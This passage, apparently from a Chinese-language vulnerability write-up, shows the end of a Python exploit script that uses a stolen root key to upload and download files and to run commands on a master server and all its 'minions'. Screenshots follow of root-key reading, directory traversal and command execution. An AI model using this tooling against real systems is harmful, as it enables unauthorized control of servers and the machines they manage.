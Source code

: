 <br>        log(f"[+] Attemping to upload {src} to {dest}")<br>        if upload(clear_channel, rootkey,  args.upload[0], args.upload[1]):<br>            log("[+] Upload done!")<br>        else:<br>            log("[-] Failed")<br>         <br>    if args.download:<br>        log(f"[+] Attemping to download {src} to {dest}")<br>        if download(clear_channel, rootkey,  args.download[0], args.download[1]):<br>            log("[+] Download done!")<br>        else:<br>            log("[-] Failed")<br><br>    if args.minions:<br>        log("[+] Attempting to send command to all minions on master")<br>        if not minion(clear_channel, command):<br>            log("[-] Failed")<br>    else:<br>        log("[+] Attempting to send command to master")<br>        if not master(clear_channel, rootkey, command):<br>            log("[-] Failed")<br>    <br>``` |

### [](#%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)漏洞利用

读取 `root key` 检测是否存在漏洞：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200513165917.png-water_print](assets/1699409283-8ac823943e44f52b53eb73fed2d3f0c8.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200513165917.png-water_print")

目录遍历

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200513165951.png-water_print](assets/1699409283-4dd2ae5233488c0fc4166ff64eff0722.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200513165951.png-water_print")

命令执行

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200513170014.png-water_print](assets/1699409283-520882c624380f4a46f2d6d5fcaa4b8f.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200513170014.png-water_print")
